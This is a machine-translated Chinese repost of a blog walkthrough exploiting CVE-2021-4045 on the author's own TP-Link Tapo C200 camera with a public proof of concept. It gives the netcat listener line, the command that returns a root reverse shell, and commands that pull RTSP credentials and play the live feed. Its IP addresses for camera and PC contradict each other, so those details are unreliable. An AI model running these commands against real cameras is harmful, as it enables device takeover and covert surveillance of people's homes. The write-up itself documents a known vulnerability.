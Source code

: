 # 入侵 Wi-Fi 摄像头 TP-Link Tapo C200(CVE-2021–4045)

> 原文：<https://infosecwriteups.com/hacking-into-wi-fi-camera-tp-link-tapo-c200-cve-2021-4045-4c4e43115864?source=collection_archive---------1----------------------->

![](img/57989af6388066335cfa1a2a5d2fd24b.png)

有一天，在例行的每日漏洞数据库读取期间，我发现了一个有趣的漏洞(CVE-2021–4045 ),是关于我自己的 Wi-Fi 摄像头的。我很久以前买了这个相机，用来在我的宝宝睡觉时监控他。这台相机在壁橱里放了很长时间，所以我敢肯定固件有一段时间没有升级，我很有可能这个 CVE 影响了我的固件版本。我发现我的相机固件版本是 1.1.11。不错，让摇滚，漏洞影响 1.1.16 Build 211209 Rel 之前的所有固件版本。37726N，所以我应该很容易黑进我的。

我不会深究这个漏洞的作者( [Victor Fresk0](https://twitter.com/hacefresko) )是如何完成伟大的逆向工程的整个故事。如果你有兴趣详细研究，查看下面的[链接](https://www.hacefresko.com/posts/tp-link-tapo-c200-unauthenticated-rce)。我将向您展示，由于 uhttpd 中对用户输入的检查不足，使用命令注入可以轻松完成 RCE 和流。

所以，我们开始吧。首先，我检查并读出了我在 [github](https://github.com/hacefresko/CVE-2021-4045-PoC) 上找到的源代码。

代码已经根据我的需要修改了 NC_COMMAND。

第一次尝试时，我遇到了一个错误。我在代码中遇到了 NC_COMMAND 的问题。我在代码中对这个 netcat 命令做了一些调整，并按照我所知道的它在 Linux Parrot OS 中通常适用的方式进行了修改。

```
NC_COMMAND = 'nc -lvp %d' % PORT
```

然后我再次尝试这个命令，它成功了。

RCE 司令部:

```
sudo python3 tapo.py shell 192.168.64.103 192.168.64.101
```

*记得更改相机和 PC 的 IP。在我的例子中，192.168.64.101 是相机的 IP，192.168.64.103 是 PC 的 IP。*

![](img/09114a3cce811213868559809297f082.png)

如您所见，我收到了 root 用户 id 的 shell。

然后我还尝试了 rtsp(实时流协议),它可以访问实时视频流。

```
sudo python3 tapo.py rtsp 192.168.64.103 192.168.64.101
```

![](img/b45ecb2bf3dbc4d18f4312dbdb8dc1ba.png)

这段代码的执行将为您提供所需的 rtsp 链接和凭证。对于流媒体，你可以使用任何支持 rtsp 协议的播放器。在我的例子中，我使用了播放器 ffplay。

接下来我运行代码:

```
sudo ffplay rtsp://pwned1337:pwned1337@192.168.64.103/stream2
```

![](img/9620c0092e715aaead1106638a3f1491.png)

开始了，我播放了我的 TP-Link Tapo C200 的视频。

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！